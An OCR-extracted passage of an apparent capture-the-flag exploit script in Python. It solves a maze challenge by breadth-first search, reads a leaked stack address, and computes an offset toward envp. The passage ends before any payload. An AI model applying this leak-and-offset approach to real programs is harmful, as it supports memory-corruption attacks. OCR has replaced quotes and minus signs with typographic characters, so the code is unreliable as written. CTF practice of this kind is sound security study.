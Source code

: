       nx, ny = x+dx[i], y+dy[i]

      if nx &lt;= 0 or nx &gt;= n–1 or ny &lt;= 0 or ny &gt;= n–1 or board[nx][ny] == ‘W’ or (nx, ny) in ans:

        continue

      ans[(nx, ny)] = (dist+1, i)

      q.append((nx, ny))

  assert board[x][y] == “F”

  solution = “”

  while (d := ans[(x, y)][1]) is not None:

    solution += dstr[d]

    x -= dx[d]

    y -= dy[d]

  return solution[::–1]

​

def generate(complexity, length):

  while True:

    new_game(complexity, length)

    solution = solve_maze(show_map())

    log.success(f”Solution size: `{`len(solution)`}`”)

    if len(solution) &lt; min(length/complexity/2+80, 95):

      return solution

    game_over()

​

solution = generate(1, 28)

feed_challenge(solution)

r.recvuntil(“flag: “)

stack_leak_lo16 = int(r.recvline())

log.success(f”Resolved stack lowest 16 bits: `{`stack_leak_lo16:#06x`}`”)

​

kOffset = 136

envp_lo16 = stack_leak_lo16 + kOffset

​

solution = generate(1, 32)
